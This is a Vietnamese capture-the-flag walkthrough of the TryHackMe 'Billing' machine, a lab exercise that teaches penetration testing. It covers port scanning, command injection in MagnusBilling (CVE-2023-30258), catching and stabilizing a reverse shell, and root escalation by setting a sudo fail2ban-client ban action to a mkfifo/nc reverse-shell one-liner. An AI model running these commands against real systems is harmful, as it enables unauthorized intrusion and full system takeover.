

import { Aside } from 'astro-pure/user'

[***Link thử thách***](https://tryhackme.com/room/billing)

## Thu thập thông tin

### Nmap scan

Mình thực hiện scan các cổng thì thấy một số cổng đang mở như:

- Dịch vụ SSH.
- HTTP đang chạy trên Apache 2.4.62
- Asterisk Call Manager - theo mình tìm hiểu được thì đây là **API realtime của Asterisk** cho phép developer xây dựng các ứng dụng xoay quanh hệ thống VoIP/Tổng đài.

```shell
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0) # [!code highlight:1]
| ssh-hostkey: 
|   256 fb:7c:b8:0d:50:f4:93:61:6b:ce:21:65:19:33:66:ba (ECDSA)
|_  256 f1:e3:57:25:0b:8a:3a:20:40:82:04:a0:f7:40:bf:c2 (ED25519)
80/tcp   open  http     Apache httpd 2.4.62 ((Debian)) # [!code highlight:1]
|_http-server-header: Apache/2.4.62 (Debian)
| http-robots.txt: 1 disallowed entry 
|_/mbilling/
| http-title:             MagnusBilling        
|_Requested resource was http://10.201.16.39/mbilling/
5038/tcp open  asterisk Asterisk Call Manager 2.10.6 # [!code highlight:1]
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Dịch vụ HTTP

Khi truy cập vào website, mình được chuyển hướng tới `/mbilling`.


Mình tìm hiểu được rằng đây là một ứng dụng web mã nguồn mở `MagnusBilling`.

Và mình tìm thấy được file `README.md` có thông tin rằng họ đang ở phiên bản `7.x.x`.


Tìm kiếm một tí thì phiên bản này có một lỗ hổng có `CVE` là `2023-30258` cho phép thực thi lệnh.


## Flag 1

### Lỗ hổng Command Injection

Khi thực thi như PoC thì không có kết quả nào trả về.


Để chắc chắn lệnh có thể thực thi, mình sử dụng kỹ thuật `time delay`, nếu lệnh thực thi được thì nó sẽ phải mất một khoảng thời gian để phản hồi.

Và đúng như dự định với lệnh `ping -c 5` đến localhost thì mất khoảng gần 5 giây để hoàn thành, chứng minh lệnh đã thực thi.



### Truy cập người dùng asterisk và flag

Mình thực hiện mở một `reverse shell` và vào được tài khoản `asterisk`.

Sau đó, mình sử dụng kỹ thuật `Stabilizing` để có thể tương tác shell linh hoạt hơn.

```shell
┌──(CloseUrEyes㉿CtrlZet)-[~/workspace/tryhackme/challenges/billing]
└─$ nc -lvnp 7304                                       
listening on [any] 7304 ...
connect to [10.17.67.204] from (UNKNOWN) [10.201.16.39] 59284
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash");'  # [!code highlight:1]
asterisk@ip-10-201-16-39:/var/www/html/mbilling/lib/icepay$ export TERM=xterm  # [!code highlight:1]
export TERM=xterm
asterisk@ip-10-201-16-39:/var/www/html/mbilling/lib/icepay$ ^Z  # [!code highlight:1]
zsh: suspended  nc -lvnp 7304
                                                                                                                                                             
┌──(CloseUrEyes㉿CtrlZet)-[~/workspace/tryhackme/challenges/billing]
└─$ stty raw -echo; fg  # [!code highlight:1]
[1]  + continued  nc -lvnp 7304

asterisk@ip-10-201-16-39:/var/www/html/mbilling/lib/icepay$
```

Tại `home` của `asterisk` có file `user.txt` chứa flag.


## Flag 2

### fail2ban-client

Kiểm tra qua thì mình thấy người dùng này có thể sử dụng `fail2ban-client` với quyền `sudo`.

```shell
asterisk@ip-10-201-18-163:/home/magnus$ sudo -l
Matching Defaults entries for asterisk on ip-10-201-18-163:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on ip-10-201-18-163:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

<Aside type="tip" title='Thông tin'>
Theo [wikipedia](https://en.wikipedia.org/wiki/Fail2ban),

*Fail2Ban là một phần mềm phòng ngừa xâm nhập. Được xây dựng bằng ngôn ngữ Python, nó được thiết kế để ngăn chặn các cuộc tấn công brute-force. Nó chạy trên các hệ thống POSIX có giao diện với hệ thống kiểm soát gói tin hoặc tường lửa được cài đặt cục bộ, như iptable hoặc TCP Wrapper.*
</Aside>

Và `fail2ban-client` là ứng dụng cho phép tương tác, cấu hình và điều khiển `fail2ban-server`.

Thường thì ứng dụng này sẽ hoạt động với quyền `root`, điều đó dẫn tới việc leo thang đặc quyền lên root nếu cấu hình chưa tốt.

```shell
ps -aux | grep fail2ban
root         852  0.1  1.5 1171732 31244 ?       Ssl  20:12   0:05 /usr/bin/python3 /usr/bin/fail2ban-server -xf start  # [!code highlight:1]
```

Ứng dụng này hoạt động dựa trên các `Jail`, giải thích đơn giản thì đây là các cấu hình mà khi các hệ thống giám sát log phát hiện điều gì trùng khớp với cấu hình này sẽ thực hiện hành động như được thiết đặt.

Mình kiểm tra các `Jail` thì mình thấy có 8 `Jail` này, chọn cái nào cũng được miễn là nó `active`.

```shell
asterisk@ip-10-201-18-163:/home/magnus$ sudo fail2ban-client status
Status
|- Number of jail:      8
`- Jail list:   ast-cli-attck, ast-hgc-200, asterisk-iptables, asterisk-manager, ip-blacklist, mbilling_ddos, mbilling_login, sshd
```

Tại đây mình chọn `sshd` và tạo một action mới tên `exploit`.

```shell
sudo fail2ban-client set sshd action exploit
```

Tại action này mình cho nó thực hiện mở kết nối `reverse shell`, nghĩa là mỗi khi ban một IP nó sẽ thực hiện hành động mà mình đã đặt là

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.17.67.204 7305 >/tmp/f;`.

```shell
sudo fail2ban-client set sshd action exploit actionban "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.17.67.204 7305 >/tmp/f;"
```

### Truy cập người dùng root và flag

Khi thực hiện ban IP bất kỳ, nó sẽ bắt đầu thực hiện `reverse shell`.

```shell
asterisk@ip-10-201-18-163:/home/magnus$ sudo fail2ban-client set sshd banip 127.0.0.1
1
```

Khi kết nối `reverse shell` thực hiện thành công, mình đã leo thang đặc quyền lên được `root` và tìm được flag trong file `root.txt` tại thư mục `/root`.

